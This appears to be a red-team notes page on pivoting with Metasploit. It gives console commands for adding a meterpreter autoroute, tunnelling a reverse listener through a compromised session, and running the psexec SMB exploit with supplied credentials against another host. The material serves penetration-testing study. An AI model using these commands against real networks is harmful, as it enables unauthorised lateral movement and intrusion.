 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - pivot
  - port-forward
  - metasploit-framework
  - cross-platform
credits:
  - Matthew Toussain
---
```

# Metasploit

> [!NOTE]
> This can work even if the compromised system is not a Windows operating system as long the session type is `meterpreter` payload.

Make the `meterpreter` connection act as a **p2p (peer-to-peer)** without requiring to use SMB namepipe or bind shell callbacks. Assuming you've gained a initial access, add a rule to route traffic.

```
meterpreter > run post/multi/manage/autoroute subnet=<subnet> netmask=/24
```

In this demonstration, we'll be using #psexec to exploit the target to pivot off from the compromised machine. Set `ReverseListenerComm` with a session ID. This will tunnel the `meterpreter` session.

```
meterpreter > background

msf exploit(windows/smb/psexec) > set ReverseListenerComm <session_ID>
```

Then set the IP address and port of the computer that's compromised.

```
msf exploit(windows/smb/psexec) > set lhost <pivot_IP>

msf exploit(windows/smb/psexec) > set lport <pivot_PORT>
```

Exploit the target.

```
msf exploit(windows/smb/psexec) > run rhosts=<target_IP> smbuser=<username> smbpass=<password>
```

You can list the `meterpreter` sessions to see that it is pivoting off from a compromised system.

```
meterpreter > background

msf exploit(windows/smb/psexec) > sessions -l
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x06 - Pivot/Cross Platform/SOCKS Proxy/C2 Frameworks/Metasploit]]

### Matthew Toussain

- [Matthew Toussain: Tactics Tuesday | Mass Meterpreter Single Channel](https://www.youtube.com/watch?v=IsrWJL0gIlg)